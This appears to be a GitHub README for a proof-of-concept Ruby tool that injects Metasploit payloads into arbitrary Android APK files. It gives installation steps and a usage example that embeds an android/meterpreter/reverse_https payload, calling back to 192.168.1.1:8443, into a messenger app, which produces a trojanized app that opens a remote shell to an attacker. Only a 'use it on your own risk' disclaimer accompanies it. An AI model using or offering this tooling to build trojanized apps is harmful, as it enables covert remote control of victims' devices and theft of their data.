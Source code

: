 # **Use it on your own risk**
Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs

**Authored by timwr, Jack64 , developed by [xC0d3rZ](https://xc0d3rz.github.io/whoaim)**
###Installation
```bash
 gem install bundler
 bundler install
``` 
###Requirements 
 
 1. Ruby (**> 1.8.7**).

###Warring 
Don't edit or remove **embed_tools** folder and **tmp/*** folder until script finish Embedding.

###Usage
```bash
./run [target.apk] [msfvenom options]
```
<br>
e.g
```bash
./run messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```

